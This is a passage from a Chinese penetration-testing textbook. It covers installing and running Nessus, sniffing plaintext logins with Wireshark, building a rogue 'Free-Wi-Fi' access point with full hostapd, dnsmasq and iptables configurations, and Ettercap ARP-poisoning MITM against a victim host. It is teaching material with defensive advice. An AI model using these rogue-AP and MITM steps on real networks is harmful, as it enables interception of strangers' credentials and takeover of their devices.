本节主题是 Nessus。我们将下载并安装 Nessus，然后注册获取激活码，激活程序，并执行首次扫描。

## 下载 Nessus

由于 Nessus 未预装在 Kali Linux 上，我们需要先下载并安装它，然后才能开始搜索漏洞。要获取最新版本的 Nessus，请访问以下网站：[`www.tenable.com/downloads/nessus`](https://www.tenable.com/downloads/nessus)

根据您的操作系统选择下载，如图 6.1 所示：


**图 6.1：** Nessus 下载

## 安装 Nessus

在本演示中，我们将部署 Nessus 漏洞扫描器。步骤如下：

1. 打开终端。

2. 输入以下命令并按 `Enter`：

   `sudo dpkg -i Nessus-8.15.2-debian6_amd64.deb`（适用于 64 位操作系统）

   `sudo dpkg -i Nessus-8.15.2-debian6_i386.deb`（适用于 32 位操作系统）

   输出如图 6.2 所示：

   

   **图 6.2：** Nessus 下载 _2

3. 输入以下命令后按 `Enter`：

   `sudo systemctl start nessusd.service`

   此命令将启动 Nessus 漏洞扫描工具，如图 6.3 所示：

   

   **图 6.3：** Nessus 启动

4. 在 Web 浏览器中访问 `https://127.0.0.1:8834`。

5. 遇到站点安全证书时，点击 `Proceed`。我们将看到如图 6.4 所示的屏幕：

   

   **图 6.4：** 在 Web 浏览器中打开 Nessus

6. 您将看到 Nessus 的初始化屏幕，如图 6.5 所示：

   

   **图 6.5：** 初始化 Nessus

7. 获取 Nessus 漏洞扫描器的激活码

   Tenable 的 Nessus 漏洞扫描器有 Nessus Essentials 和 Nessus Professional 两个版本。Nessus Essentials 免费，但与收费的 Nessus Professional 相比功能有限。Nessus Essentials 的主要限制如下：

   * 扫描限制为每个扫描器 16 个 IP 地址。
   * 不提供合规性检查或实时结果。
   * 无法使用 Nessus 虚拟设备。

   本教程使用 Nessus Essentials。尽管软件免费，但确实需要有效的激活码，详情如下。

8. 访问 Nessus Essentials 产品门户。

   [`www.tenable.com/products/nessus/nessus-essentials`](https://www.tenable.com/products/nessus/nessus-essentials)

9. 在注册表单中填写名、姓和电子邮件地址，如图 6.6 所示：

   

   **图 6.6：** Tenable Nessus Essentials 产品注册页面

10. 点击 `Register` 按钮完成注册，如图 6.7 所示：

    

    **图 6.7：** 在 Tenable Nessus Essentials 产品注册页面上完成注册

11. 注册完成后，Tenable 会发送确认邮件。最后，您将看到如图 6.8 所示的消息：

    

    **图 6.8：** 显示成功注册结果的 Nessus Essentials 产品注册页面

12. 检查邮箱获取激活码，格式类似 `D234-C7CB-04AF-79A6-1555`。发件人地址为 `no-reply@tenable.com`。如果收件箱中没有注册邮件，请检查垃圾箱！

13. 激活 Nessus 应用程序：既然您已获得激活码并启动了 Nessus 服务，现在可以激活您的 Nessus 安装了。

14. 在 Kali Linux 操作系统上使用 Web 浏览器访问 `https://localhost:8834`。请注意，默认端口是 `8834`，而不是 `443`。（当您尝试访问 Nessus 应用程序的 Web 界面时，可能会收到警告，因为安装附带自签名 SSL 证书。Tenable 允许您自定义 Nessus 应用程序使用的 SSL 证书。）

15. 在“Welcome to Nessus”屏幕上选择 Nessus Essentials 作为产品版本，如图 6.9 所示：

    

    **图 6.9：** 选择 Nessus Essentials 作为 Nessus 产品版本

16. 由于您已有激活码，可以跳过 `Get an activation code` 屏幕。请参考图 6.10：

    

    **图 6.10：** 在检索激活码屏幕上选择跳过按钮

17. 在 `Register Nessus` 屏幕上，输入注册过程中获得的 `Activation Code` 并点击 `Continue`。本教程的模拟激活码为 `D234-C7CB-04AF-79A6-1555`，如图 6.11 所示：

    

    **图 6.11：** 在 Nessus 应用程序中输入激活码

18. 出现 `Create a user account` 屏幕时，输入用户名和密码，然后点击 `Submit`。使用提供的登录名和密码访问 Nessus 程序，如图 6.12 所示：

    

    **图 6.12：** 为 Nessus 应用程序创建用户账户

19. 扫描器初始化完成后（可能需要一些时间），点击 `Sign In` 并输入本课程前面创建的用户账户的用户名和密码。请参考图 6.13：

    

    **图 6.13：** 显示用户名和密码登录屏幕

太棒了！您的 Nessus 漏洞扫描器程序现已安装并激活！在下一部分，您将设置 Nessus 对本地系统运行漏洞扫描。

## 运行 Nessus 漏洞扫描

您已成功安装 Nessus。现在是时候大显身手了，看看这个实用工具在发现弱点方面能为您做什么！本节其余部分将指导您在 Kali Linux 系统上配置并运行扫描。

如果您仍在 Nessus 应用程序屏幕上或尚未登录，请输入本指南前面创建的用户账户的用户名和密码。

首次登录时可能会出现欢迎消息，允许您快速配置发现扫描（用于定位网络设备）。您可以关闭此通知，因为您即将配置并运行自定义扫描，如图 6.14 所示：


**图 6.14：** Nessus 应用程序显示突出显示的关闭选择按钮

配置扫描的方法多种多样。本教程重点介绍以下各节提到的三步流程。

1. 配置扫描策略
2. 配置扫描
3. 启动扫描

## 配置 Nessus 漏洞扫描策略


## 扫描策略

扫描策略基本上是一组扫描指令。扫描策略告诉扫描器要完成什么任务以及如何完成它们。您可以从多个预配置的扫描策略模板中进行选择，或自定义复杂扫描。Tenable 将 Nessus 的扫描功能分为三类：

*   **发现扫描**：针对地址空间，报告存活主机和开放端口。
*   **漏洞扫描**：针对端点，评估已知漏洞。
*   **合规性扫描**：针对端点，评估端点配置是否符合特定标准（例如，**互联网安全中心 (CIS) 基准**、**安全技术实施指南 (STIG)** 等）。

请按照以下步骤构建并配置您的扫描策略。

1.  `Policies`（策略）位于屏幕左侧菜单中 `Resources`（资源）类别下，如 *图 6.15* 所示：
    
    **图 6.15：** 从 Nessus 菜单中选择策略

2.  从屏幕右上角的菜单中选择 `New Policy`（新建策略），如 *图 6.16* 所示：
    
    **图 6.16：** 从 Nessus 策略页面创建新策略

3.  从下拉菜单中选择 `Basic Network Scan`（基础网络扫描）。`Basic Network Scan` 选项包含用于评估 Kali Linux 服务器漏洞的 `Pre-configured settings`（预配置设置），如 *图 6.17* 所示：
    
    **图 6.17：** 从 Nessus 策略模板页面选择基础网络扫描

    选择扫描策略模板后，会出现其他可调整组件。目前请保持每个预配置设置为默认状态，但之后您可以随意尝试修改。

4.  为扫描策略指定 `Name`（名称）后，点击 `Save`（保存）按钮。本教程使用的扫描策略名称为 `Basic Network Vulnerability Scan Policy`（基础网络漏洞扫描策略），如 *图 6.18* 所示：
    
    **图 6.18：** 在 Nessus 基础网络漏洞扫描策略页面输入策略名称并使用预配置默认值

Tenable 需要管理访问权限才能运行漏洞检查（其中一些将在本教程中演示）。在没有凭据的情况下执行扫描，可以深入了解可从外部枚举的漏洞，模拟攻击者的视角。

## 配置 Nessus 漏洞扫描

配置扫描是流程的下一阶段。在此过程中，按照以下说明选择扫描策略和目标主机。

1.  从屏幕左侧的菜单中选择 `My Scans`（我的扫描），如 *图 6.19* 所示：
    
    **图 6.19：** 在 Nessus 菜单上选择我的扫描

2.  点击屏幕右上角的 `New Scan`（新建扫描）按钮，如 *图 6.20* 所示：
    
    **图 6.20：** 在 Nessus 中创建新扫描

3.  从 `User Defined`（用户定义）选项卡中选择新创建的 `Basic Network Vulnerability Scan`（基础网络漏洞扫描），如 *图 6.21* 所示：
    
    **图 6.21：** 选择创建用户定义的 Nessus 扫描

4.  选择您在上一节中设置的扫描策略。本课程中的 `Basic Network Vulnerability Scan Policy`（基础网络漏洞扫描策略）显示为可选项，如 *图 6.22* 所示：
    
    **图 6.22：** 选择基础网络漏洞扫描策略

5.  定义您的目标。在 `Targets`（目标）文本输入框中输入 `localhost` 以将目标指向您的本地 Kali Linux 主机，如 *图 6.23* 所示：
    
    **图 6.23：** 定义漏洞扫描目标

    可以通过逗号分隔，在一次扫描中定义多个目标。例如，指定 `localhost`、`10.10.10.10` 将同时针对您的本地主机和 `10.10.10.10` IP 地址。

6.  为扫描命名，然后点击 `Save`（保存）按钮。本教程的扫描名称为 `Basic Network Vulnerability Scan`（基础网络漏洞扫描），如 *图 6.24* 所示：
    
    **图 6.24：** 保存新的 Nessus 漏洞扫描

## 启动 Nessus 漏洞扫描

保存扫描后，在 Nessus 应用程序的 `My Scans`（我的扫描）部分将创建一个条目。

1.  点击 `Basic Network Vulnerability Scan` 旁边的 `Play`（播放）按钮以开始扫描，如 *图 6.25* 所示：
    
    **图 6.25：** 运行 Nessus 漏洞扫描

2.  旋转的绿色箭头指示器表示正在扫描。请耐心等待，因为扫描需要一些时间才能完成，如 *图 6.26* 所示：
    
    **图 6.26：** 旋转的绿色箭头图标表示正在运行扫描

3.  当旋转的绿色箭头图标变为绿色复选标记时，扫描完成。只需点击扫描名称即可查看结果！请参阅 *图 6.27*：
    
    **图 6.27：** 绿色复选标记表示漏洞扫描完成

    太棒了！您刚刚完成了对 Kali Linux 主机的漏洞扫描！在扫描摘要页面，点击 `Vulnerabilities`（漏洞）选项卡查看结果，如 *图 6.28* 所示：
    
    **图 6.28：** 在扫描摘要页面显示发现的漏洞

4.  点击其中一个漏洞。它将提供更多信息，如 *图 6.29* 所示：
    
    **图 6.29：** 显示漏洞的更多信息

报告解释了什么是漏洞及其影响。它将提供解决方案以及更多资源的参考。对于普通用户来说，这将提供您所需的所有信息，以弄清楚导致问题的原因、风险和威胁是什么，以及如何修复它们。

## 生成报告

创建报告将帮助您组织工作，并在渗透测试期间为您提供一个中心位置来分析所有输出和结果。报告很有用，因为它们将所有信息集中在一个地方，无需求助于其他文档。

1.  现在我们已经安装并执行了扫描，是时候获取报告了。点击 `Vulnerabilities`（漏洞），如 *图 6.30* 所示：
    
    **图 6.30：** 漏洞

2.  点击 `Report`（报告），如 *图 6.31* 所示：
    
    **图 6.31：** 报告

3.  选择文件格式（PDF/HTML/CSV）并选择一个 `Report Template`（报告模板），然后点击 `Generate Report`（生成报告）按钮（这将下载您选择的文件格式）。

4.  打开文件查看其是否为可查看和工作的格式，如 *图 6.32* 所示：
    
    **图 6.32：** PDF 报告

恭喜，您已成功在 Nessus 中生成漏洞报告！

## 解决漏洞


因为黑客很少以软件漏洞为目标，所以它们的危害性比操作系统缺陷要小。即便如此，某些程序缺陷（如 Internet Explorer 或 Microsoft Office 中的缺陷）也可能构成重大危害。补丁一旦发布，这些漏洞就会通过 Windows 更新例行修复。Microsoft Update、Windows Update 和 Office Update 都提供安全升级。您可以通过搜索关键字 `security update` 轻松找到它们。例如，如果 Nessus 在您的 Windows 系统上将 MS07-036 识别为漏洞，您可以搜索该安全公告编号，然后下载所有可用更新来修补您的计算机。谈到程序漏洞，您应始终检查并尽快下载最新的软件升级。

## 结论

本章内容基本到此结束！我们讨论了如何开始设计评估、评估的重要组成部分以及评估的分步方法。在运行 Nessus 之前，我们已安装、注册 Nessus 并下载了插件。我们还创建了新策略和扫描、检测漏洞、阅读漏洞详情，并进行了修复跟进。接下来我们将进入下一章，您将了解客户端攻击！

## 问题

1.  说明安装 Nessus 程序的步骤。
2.  发现扫描和漏洞扫描有什么区别？
3.  如何在 Nessus 程序中生成报告？

# 第 7 章

# 客户端攻击

## 简介

在上一章中，我们回顾了如何进行网络漏洞评估。本章将介绍客户端攻击，帮助您了解黑客如何以系统和其他网络设备为目标并发起攻击。究竟什么是客户端攻击？让我们来讨论一下。

## 结构

本章将涵盖以下主题：

*   客户端攻击是如何工作的？
*   客户端攻击的类型
*   嗅探未加密流量
*   蜜罐攻击
*   预防威胁

#### 目标

在本章中，您将学习如何捕获未加密流量，并了解蜜罐攻击和方法、Karmetasploit、Jasager 以及威胁预防。

## 客户端攻击是如何工作的？

要完全理解客户端攻击的运作方式，我们必须首先考察服务器端攻击与客户端攻击的区别。如图 7.1 所示，客户端通过各种应用程序和服务与服务器连接。这些服务器服务可供已向其提供服务的客户端使用，以尝试利用漏洞。随着服务器上启动的服务越多，其面临的攻击风险就越大：


**图 7.1：** 客户端攻击

客户端攻击不同于服务器端攻击。这些攻击旨在利用与恶意服务器交互的客户端应用程序中的缺陷。如果客户端未连接到服务器，则不会处理来自服务器的任何内容，因此不面临风险。由于大多数客户端均自动配置为连接到服务器，即时通讯应用程序可能会使客户端面临攻击，如图 7.2 所示：


**图 7.2：** 客户端攻击场景 1

最常见的客户端攻击发生在用户访问针对其 Web 浏览器应用程序的恶意网页时。如果攻击成功，攻击者可以轻松控制客户端。除了基于 Web 的攻击外，还有通过电子邮件、即时通讯和 FTP 发起的攻击，如图 7.3 所示：


**图 7.3：** 客户端攻击场景 2

只有提供防御措施时，客户端才受到保护。防火墙和代理将网络流量限制为仅受信任的网站和服务器。硬件防火墙（如 WatchGuard 的 XTM 800 系列）包含数据包过滤、入侵防御服务和应用程序控制。如果您的企业网络没有硬件防火墙，所有系统和设备都将面临风险。

## 客户端攻击的类型

客户端攻击利用用户对其访问的网站或服务器的信任，如图 7.4 所示：


**图 7.4：** 客户端攻击示例

以下是最典型的客户端攻击类型：

*   **欺骗：** 让用户相信网站或服务器是真实的行为。
*   **跨站脚本攻击（XSS）：** 允许攻击者在用户的浏览器中运行代码。这种攻击可用于劫持用户会话、发起网络钓鱼攻击以窃取登录凭据，甚至利用露骨内容让用户难堪。此漏洞影响所有 Web 应用程序。漏洞利用通常会使用 HTML、JavaScript、VBScript、ActiveX、Java 或 Flash 在用户的 Web 浏览器应用程序上执行，如图 7.5 所示：


**图 7.5：** XSS 场景

## 嗅探未加密流量

到目前为止，您应该知道未加密的 Wi-Fi 通信可被任何人访问，从而使您的数据面临风险。您是否曾使用过公共无线网络（如星巴克或酒店提供的网络）？您是否曾考虑过还有谁可能连接到您的网络并窃听您的通信？这难道不令人恐惧吗？

这几乎不需要任何经验！任何人都能轻松查看未加密流量。在本演示中，让我们详细了解如何嗅探您的未加密通信。此演示将说明为何始终通过安全连接进行连接至关重要。

1.  导航至 `Applications` | `Sniffing & Spoofing` | `Wireshark`，如图 7.6 所示：

    

    **图 7.6：** Wireshark 应用程序

    您也可以在终端窗口中输入 `sudo wireshark` 来打开 Wireshark。

2.  图 7.7 展示了 Wireshark 图形界面的外观：

    

    **图 7.7：** Wireshark GUI

3.  然后导航至 `Capture` | `Options...`，如图 7.8 所示：

    

    **图 7.8：** Wireshark 捕获接口

4.  本演示选择了 `eth0`。对某些用户而言，这可能是 `wlan0` 或 `wlan1`。勾选复选框并点击 `Start`，如图 7.9 所示：

    

    **图 7.9：** Wireshark eth0 接口

5.  您应该会看到 Wireshark 开始捕获网络流量，如图 7.10 所示：

    

    **图 7.10：** Wireshark eth0 接口数据包

6.  在本演示中，我们将过滤 HTTP 并按 `Enter` 键，如图 7.11 所示：

    

    **图 7.11：** Wireshark HTTP 过滤器

7.  在浏览器中使用 HTTP 协议登录以下网站：[`testphp.vulnweb.com/login.php`](http://testphp.vulnweb.com/login.php)

    请参阅图 7.12：

    

    **图 7.12：** 网站登录

    要登录，请输入用户名 `test` 和密码 `test`。

8.  在 Wireshark 中，您应该会看到许多不同的 HTTP 数据包。右键单击其中一个，选择 `Follow`，然后选择 `TCP Stream`，如图 7.13 所示：

    

    **图 7.13：** HTTP 跟踪 TCP 流


9. 它应该显示 HTTP 请求，其中用户名和密码以明文形式呈现，如 *图 7.14* 所示：


**图 7.14：** HTTP 请求

你必须使用 `HTTPS` 协议使此连接安全，对于不同的连接（如 `telnet`）也是如此。`SSH-2` 是唯一的选择。`SSH-1` 存在安全缺陷，易受中间人攻击。`SSH-1` 不再受支持，应不惜一切代价避免使用。确保你的 `sshd` 配置文件是最新的，你已更改默认的 `SSH` 端口，你已限制用户的 `SSH` 访问，你已配置 `IDL` 注销超时间隔，你已禁用 root 登录，并且你已根据你的法律条款和法律声明详情设置了警告横幅。`SSH` 的密码应当强健。无法过分强调这一点有多么关键。

## 蜜罐攻击

随着技术的进步，无线网络在带宽和范围方面变得大得多。黑客可以简单地建立一个无线蜜罐，诱使受害者进入他们假定为安全的无线网络。什么是无线蜜罐，它是如何工作的？**无线蜜罐** 是一种设备，它被设置为一个接入点，拥有与该区域内另一个接入点相同的 `SSID`，并设置了一个指向攻击者计算机的代理。

如果用户连接到蜜罐，攻击者可以过滤或监控其所有网络活动，从而可能导致中间人攻击。该连接内的任何未加密流量（如电子邮件、即时消息、`FTP` 和 `telnet` 会话）都将对攻击者可见。请参阅 *图 7.15*：


**图 7.15：** 未加密连接

如果攻击者拥有高增益天线，客户端极有可能在可用无线网络列表的顶部看到攻击者的天线。另一点需要注意的是，大多数 Microsoft Windows 操作系统都设置为自动连接到无线网络，如果附近有一个具有相同 `SSID` 和密码的蜜罐，这可能会造成问题。此功能可以关闭。

## 保护自己免受蜜罐或中间人攻击

不使用无线网络是防御蜜罐攻击最简单的方法之一，如 *图 7.16* 所示。如果你的公司需要无线访问怎么办？应在 `BYOD` 设备上创建配置文件，以仅允许受信任的无线网络连接到客户端设备。使用 `3G/4G` 或有线连接。如果你仍然需要无线访问怎么办？**无线入侵防御系统** (**WIPS**) 可以使用软件和硬件检测流氓接入点：


**图 7.16：** 中间人攻击

`WIPS` 使用 `SSID`、信道、信号强度和 `MAC` 地址来识别这些接入点。如果标准不匹配，则该 `AP` 很有可能是蜜罐。如果黑客使用与你相同的 `SSID` 和信道会怎样？然后 `WIPS` 将使用信号强度。信号强度有助于确定 `AP` 是否真实。

**KFSensor** 是一款用于 Windows 的蜜罐 **入侵检测系统** (**IDS**)。它作为一个蜜罐运作，吸引并检测黑客、蠕虫、流氓软件和漏洞。它可以通过作为诱饵来转移攻击，增加一层额外的防御。`KFSensor` 界面如 *图 7.17* 所示：


**图 7.17：** KFSensor 界面

你可以从 **[`www.keyfocus.net/kfsensor/download/`](http://www.keyfocus.net/kfsensor/download/)** 下载 30 天试用版。

## 如何启动虚假接入点（虚假 Wi-Fi）

正如你所知，不受信任的 Wi-Fi 网络如果你连接它们，可能会造成相当大的危害。如果你身处陌生环境并碰巧连接到了一个开放网络，无论你使用什么设备，你的数据都将对掌管该接入点的人可见。不仅如此，负责人还可以通过将你连接到恶意网页或后门，从而完全控制你的设备。

有许多方法可以实现这一点。你可以将连接的用户发送到你控制的恶意网站，并用它来挂马控制他们的设备。在连接的设备上使用 python `MITM` 脚本，你也可以运行和执行后门。甚至可以在不引起怀疑的情况下，即时替换连接用户请求的下载文件。

让我们看看如何启动一个虚假 AP：

1. 首先，我们需要将 Kali Linux 更新到最新版本并安装所需的包，如 *图 7.18* 所示：

```
apt-get update
apt-get install hostapd dnsmasq apache2
```


**图 7.18：** 安装包

2. 我们需要将无线网卡置于监听模式，以允许我们嗅探网络内外的数据包。你可以使用 *图 7.19* 所示的方法：

```
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```


**图 7.19：** 无线网卡设置

3. 如果那不起作用，你可以使用 *图 7.20* 所示的方法：

```
airmon-ng start wlan0
```


**图 7.20：** airmon-ng 命令

4. 为了使事情井井有条且易于操作，我们将在 root 目录下创建一个新目录并将其命名为 `fap`（虚假接入点）。请参阅 *图 7.21*：

```
mkdir /root/fap
cd /root/fap
```


**图 7.21：** mkdir 命令

5. 一旦我们进入刚创建的 `/root/fap` 目录，我们将建立一个新的 `hostapd` 配置文件并在其中编写指令，如 *图 7.22* 所示。`hostapd`（主机接入点守护进程）是一个软件接入点，允许用户使用其无线适配器同时广播多个接入点。

```
nano hostapd.conf
```

`nano`：是大多数 Linux 安装中包含的命令行文本编辑器。

`hostapd.conf`：是我们创建的配置文件的名称。

现在，在 `hostapd.conf` 内部，我们需要为其设置指令顺序：

```
interface=wlan0
driver=nl80211
ssid=Free-Wi-Fi
hw_mode=g
channel=1
macaddr_acl=0
ignore_broadcast_ssid=0
```

写完这些指令后，按 `Ctrl` + `X`，然后按 `Y`，再按 `Enter`。现在，`hostapd.conf` 已全部设置完毕。

* `interface`：我们在监听模式下使用的无线适配器的名称。
* `driver`：`hostapd` 支持的驱动程序。
* `ssid`：广播的 Wi-Fi 名称。
* `hw_mode=g`：仅指示其使用 2.4 GHz 频段。
* `channel`：用于虚假接入点的信道编号。
* `macaddr_acl=0`：告诉 `hostapd` 不使用 MAC 过滤。[`macaddr_acl=1`] 告诉它使用 MAC 过滤。
* `ignore_broadcast_ssid=0`：使虚假接入点可见且不隐藏。

请参阅 *图 7.22*：


**图 7.22：** Nano 命令

6. 通过执行以下操作启动虚假接入点：

```
hostapd hostapd.conf
```

你会注意到我们的接入点将显示为一个开放的 Wi-Fi 网络。现在，在不关闭前一个窗口的情况下打开一个新的终端窗口。在新终端窗口中，通过执行以下操作导航回 fap 目录：

```
cd /root/fap
```

请参阅 *图 7.23*：


**图 7.23：** hostapd 命令


### 7. 我们将使用 dnsmasq 完成此步骤

Dnsmasq 是一个 **动态主机配置协议** (**DHCP**) 服务器，用于解析来自或发往机器的 DNS 请求，同时也充当 DHCP 服务器为客户端分配 IP 地址。它速度快且非常适合我们的需求。我们将为 dnsmasq 创建一个配置文件并添加一些指令，就像之前对 `hostapd` 所做的那样。

创建文件：

```
nano dnsmasq.conf
```

添加以下指令：

```
interface=wlan0
dhcp-range=192.168.1.2, 192.168.1.30, 255.255.255.0, 12h
dhcp-option=3, 192.168.1.1
dhcp-option=6, 192.168.1.1
server=8.8.8.8
log-queries
log-dhcp
listen-address=127.0.0.1
```

*   `dhcp-range`：连接的网络客户端的 IP 地址范围。`12h` 是租约过期前的小时数。
*   `dhcp-option=3`：网络的网关 IP。
*   `dhcp-option=6`：用于 DNS 服务器，后跟 IP 地址。
*   `server`：DNS 服务器的地址。
*   `log-queries`：记录 dnsmasq 处理的 DNS 查询结果。
*   `log-dhcp`：记录发送给 DHCP 客户端的所有选项以及用于确定它们的标签。
*   `listen-address`：将 DHCP 绑定到本地 IP 地址 `127.0.0.1`。

按 `Ctrl` + `X`，然后按 `Y`，最后按 `Enter`。现在 `dnsmasq.conf` 已配置完成。请参阅 Figure 7.24：


**Figure 7.24:** Nano dnsmasq.conf command

### 8. 分配接口网关、子网掩码并添加路由表

请参阅 Figure 7.25：

```
ifconfig wlan0 up 192.168.1.1 netmask 255.255.255.0
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
```

启动 DNS 服务器：

```
dnsmasq -C dnsmasq.conf -d
```

*   `dnsmasq -C`：指定一个不同的配置文件。
*   `-d`：告诉它保持用户 ID 不变。


**Figure 7.25:** dnsmasq command

### 9. 转发流量以提供互联网访问

为了给用户提供互联网访问，我们需要将流量从连接互联网的虚拟无线适配器 `eth0` 转发到 `wlan0mon`。这将帮助你执行各种攻击，从而完全控制用户设备。如果你不希望用户拥有互联网访问权限，请跳过此步骤。

```
iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
iptables --append FORWARD --in-interface wlan0 -j ACCEPT
```

*   **第一条命令**：用于转发流量的接口名称。
*   **第二条命令**：接收数据包的接口名称，或被转发到的接口。

现在，执行此命令以启用 IP 转发：

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

请参阅 Figure 7.26：


**Figure 7.26:** iptables command

### 10. 测试伪造接入点

通过扮演受害者来测试你的伪造接入点。连接到你的网络并访问任意网站；你应该能在终端中实时看到所有传输的数据包。一旦设备连接到网络，`hostapd` 将显示其 MAC 地址。请参阅 Figure 7.27：


**Figure 7.27:** Fake Wi-Fi

在运行 `dnsmasq` 的另一个终端窗口中，你将详细发现设备正在尝试访问的内容。例如，用户正在访问 `google.com`，如 Figure 7.28 所示：


**Figure 7.28:** Victim is accessing google.com

这展示了伪造接入点的强大威力。一旦目标连接上，你将拥有许多可用的攻击手段，最终可能控制用户的设备。

## Preventing threats

即使下一次入住酒店仅仅是每个网页重定向都充满了小猫图片，你也完全清楚这可能是危险的。好消息是我们仍然可以防御蜜罐和流氓接入点。以下是几种方法：

*   **关闭 Wi-Fi**：确保安全的最简单方法是关闭 Wi-Fi。不使用 Wi-Fi 可以降低遭受这些攻击的安全风险。
*   **不惜一切代价避免连接到开放 Wi-Fi 网络**：免费互联网很诱人，但如果有人拦截了所有网络流量怎么办？如果非必要，请勿使用开放 Wi-Fi 网络。
*   **始终确保使用 HTTPS 链接，而非 HTTP**：仅从 HTTPS 页面下载。
*   **建立安全的 VPN 连接**：如果开放网络是你唯一的选择，请始终使用安全的 VPN 连接。

## Conclusion

这是一个精彩的章节！我们涵盖了大量内容。让我们回顾一下你迄今为止学到的知识。在本章中，你学习了如何捕获未加密流量，了解了蜜罐攻击及其方法，以及如何使用 `hostapd` 和 `dnsmasq` 创建伪造接入点，并学会了如何保护自己免受威胁。

在接下来的章节中，你将学习如何拦截加密网络流量以及中间人攻击。

## Questions

1.  提及客户端攻击。
2.  蜜罐的含义是什么？
3.  如何详细创建伪造接入点？
4.  如何保护自己免受伪造接入点攻击？

# CHAPTER 8

# Advanced Wireless Attacks

## Introduction

作为一名渗透测试人员，了解黑客可以发动的高级攻击非常重要，即使你在渗透测试期间可能不会检查或演示这些攻击。本章演示了黑客如何利用无线访问作为起点发动高级攻击。

在本章中，我们将探讨如何利用迄今为止所学的知识实施高级攻击。我们将重点关注 **中间人** (**MITM**) 攻击，这需要一定的技能和练习才能执行好。完成后，我们将利用此 MITM 攻击作为跳板，发动更高级的攻击，如窃听和会话劫持。然后，我们将使用 Metasploit 利用受害者。最后，我们将列出防范这些威胁的措施。

## Structure

本章将涵盖以下主题：

*   捕获未加密流量
*   MITM 攻击
*   Metasploit
*   预防措施

## Objectives

在本章中，你将学习如何利用无线网络进行高级攻击，包括建立无线 MITM 攻击环境并用于窃听受害者流量。然后，你将利用相同的环境通过 DNS 投毒攻击劫持受害者的应用层（具体指 Web 流量），并学习如何使用 Metasploit。最后，你将学习如何防范这些威胁。

## Capturing unencrypted traffic

正如 Figure 8.1 所示，任何连接到同一无线网络的人都可以以明文形式读取未加密的无线流量。你的电子邮件、即时消息、FTP 文件、Telnet 连接、HTTP 会话和其他数据都可能被窃取。其原理是什么？当用户使用 HTTP 浏览网站时，他们发送的数据从头到尾都未加密；因此，同一网络上的任何人都可以拦截并记录这些数据：


**Figure 8.1:** Unncrypted connection

`Wireshark` 是一款网络分析器，允许你检查和保存实时网络数据包。`Wireshark` 兼容 Windows、Mac OS X、Linux 和 Unix。如果有人在网络上运行 `Wireshark`，他们可以观察到人们访问了哪些网站、传输了哪些文件、发送了哪些即时消息等。


存在多种易受网络嗅探攻击的网络服务和公共网络。任何具备必要能力和 Wireshark 知识的人都可以快速入侵您的账户。

请始终检查以下事项以保持安全：

*   使用 WPA 或 WPA2 加密。
*   在公共网络上始终使用 HTTPS。
*   使用 SSH 或加密邮件进行文件传输。
*   在公共网络上使用 VPN。
*   使用密码管理器登录网站。

## 中间人攻击

您可能听说过“中间人”，但什么是“中间人攻击”？**中间人攻击**（**MITM**）发生在用户数据被网络拦截时。在网络上，恶意用户充当路由器，捕获所有网络流量。这涵盖电子邮件、登录凭据、聊天消息等。请参阅*图 8.2*：


**图 8.2：** MITM 攻击

此演示仅旨在作为教学工具。黑客技术用于提高安全性是一项宝贵的技能。在大多数国家，未经授权在未获许可的网络上从事恶意活动属于重罪。在下一个演示中，我们将使用自己的计算机和网络。

1.  要开始，打开终端并输入（如*图 8.3*所示）：

    ```
    mousepad /etc/ettercap/etter.conf
    ```

    **Ettercap 工具是具有基本可靠功能的 MITM 工具之一，内置嗅探器，支持 DNS 欺骗插件，以及支持自定义过滤器。**

    

    **图 8.3：** 打开 etter.conf 文件

2.  打开 `etter.conf` 后，查找高亮显示的文字（如*图 8.4*所示）：

    

    **图 8.4：** etter.conf 文件

    您需要将高亮代码替换为*图 8.5*所示内容：

    

    **图 8.5：** etter.conf 文件参数

3.  点击 `Search`，然后点击 `Find`。输入 `iptables` 并点击 `Find` 按钮（如*图 8.6*所示）：

    

    **图 8.6：** iptables 搜索

    结果应如*图 8.7*所示：

    

    **图 8.7：** iptables 搜索结果

    您需要取消注释两行，使其如*图 8.8*所示：

    

    **图 8.8：** iptables 取消注释命令

4.  点击 `Search`，然后点击 `Find`。输入 `ip6tables` 并点击 `Find` 按钮（如*图 8.9*所示）：

    

    **图 8.9：** ip6tables 搜索

    结果应如*图 8.10*所示：

    

    **图 8.10：** ip6tables 搜索结果

    您需要取消注释两行，使其如*图 8.11*所示：

    

    **图 8.11：** ip6tables 取消注释命令

5.  通过打开终端并输入 `ettercap –G` 启动 `Ettercap-gtk`（如*图 8.12*所示）：

    

    **图 8.12：** Ettercap GUI

6.  `Ettercap` 打开后，选择 `Sniffing at startup` 并选择 `Primary Interface` `eth0`，然后按 `Accept` 启动 Ettercap（如*图 8.13*所示）：

    

    **图 8.13：** Ettercap 选择主接口

7.  点击 `Hosts`，然后选择 `Scan for hosts`（如*图 8.14*所示）：

    

    **图 8.14：** 扫描主机

8.  在命令框中，您应该会看到 `hosts added to the host list`。点击 `Hosts`，然后选择 `Hosts List`（如*图 8.15*所示）：

    

    **图 8.15：** 主机列表

9.  选择路由器的 IP 地址，然后点击 `Add to Target 1` 按钮（如*图 8.16*所示）：

    

    **图 8.16：** 路由器 IP 添加到 Target 1

10. 选择受害者的 IP 地址，然后点击 `Add to Target 2` 按钮（如*图 8.17*所示）：

     

     **图 8.17：** 受害者 IP 添加到 Target 2

11. 点击 `Mitm` 菜单，然后选择 `Arp poisoning`（如*图 8.18*所示）：

     

     **图 8.18：** Mitm ARP 欺骗

12. 收到提示时，勾选 `Sniff remote connections` 旁边的复选框，然后点击 `OK`（如*图 8.19*所示）：

     

     **图 8.19：** 嗅探远程连接

13. 现在，打开 `Wireshark` 以嗅探受害者流量。然后选择接口 `eth0`（如*图 8.20*所示）：

     

     **图 8.20：** Wireshark

14. 在 Wireshark 程序中选择 `eth0` 接口并使用 `http` 过滤器（如*图 8.21*所示）：

     

     **图 8.21：** Wireshark HTTP 过滤器

15. 在受害者机器上，打开浏览器并输入以下 URL：`http://testphp.vulnweb.com/login.php`（如*图 8.22*所示）：

     

     **图 8.22：** testphp.vulnweb.com 网站

     输入用户名 `test` 和密码 `test`。

16. 在 Wireshark 中检查受害者流量（如*图 8.23*所示）：

     

     **图 8.23：** 嗅探受害者流量

